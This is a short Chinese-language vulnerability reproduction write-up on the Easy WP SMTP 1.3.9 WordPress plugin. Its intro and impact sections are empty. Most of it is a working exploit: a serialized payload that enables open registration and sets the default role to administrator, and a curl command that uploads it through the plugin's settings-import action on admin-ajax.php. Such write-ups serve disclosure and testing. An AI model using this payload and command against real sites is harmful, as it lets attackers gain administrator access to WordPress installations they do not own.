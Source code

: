 WordPress Plugin - Easy WP SMTP 反序列化漏洞
============================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

我们首先搭建一个wordpress站点，安装v1.3.9版本的Easy WP
SMTP，并进行相关配置。

在以下概念验证中，我将用于swpsmtp\_import\_settings上传一个文件，该文件包含恶意的序列化有效负载，该负载将使用户能够注册（users\_can\_register）并将用户默认角色（default\_role）设置为数据库中的"管理员"。

1.创建一个文件名" /tmp/upload.txt"，并添加以下内容：

    a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";}

2.上传文件

    $ curl https://0-sec.org/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt'

![](./.resource/WordPressPlugin-EasyWPSMTP反序列化漏洞/media/rId24.shtml)

